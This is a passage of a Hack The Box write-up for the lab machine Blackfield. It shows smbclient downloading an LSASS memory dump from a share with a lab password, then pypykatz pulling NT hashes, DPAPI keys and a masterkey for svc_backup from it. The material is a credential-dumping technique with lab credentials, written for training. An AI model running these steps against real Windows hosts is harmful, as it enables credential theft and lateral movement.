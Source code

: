 I found this [forum post](https://unix.stackexchange.com/questions/31900/smbclient-alternative-for-large-files) on how to copy large files over SMB and tried some methods specified here. The method to set longer timeout works for me.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ smbclient //10.10.10.192/forensic -U audit2020 Password123
Try "help" to get a list of possible commands.
smb: \> cd memory_analysis
smb: \memory_analysis\> timeout 600; iosize 16384;
io_timeout per operation is now 600
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (183.1 KiloBytes/sec) (average 183.1 KiloBytes/sec)
smb: \memory_analysis\>
```

Unzipping *lsass.zip* gives *lsass.DMP*, which indeed is the memory dump of LSASS. We can extract credentials from this file using **pypykatz**. Found the NT hash for `svc_backup`: `9658d1d1dcd9250115e2205d9f48400d`.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows/files]
└─$ pypykatz lsa minidump ./lsass.DMP
...SNIP...
== LogonSession ==
authentication_id 406499 (633e3)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406499
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633e3]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633e3]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == DPAPI [633e3]==
                luid 406499
                key_guid 836e8326-d136-4b9f-94c7-3353c4e45770
                masterkey 0ab34d5f8cb6ae5ec44a4cb49ff60c8afdf0b465deb9436eebc2fcb1999d5841496c3ffe892b0a6fed6742b1e13a5aab322b6ea50effab71514f3dbeac025bdf
                sha1_masterkey 6efc8aa0abb1f2c19e101fbd9bebfb0979c4a991
...SNIP...
```

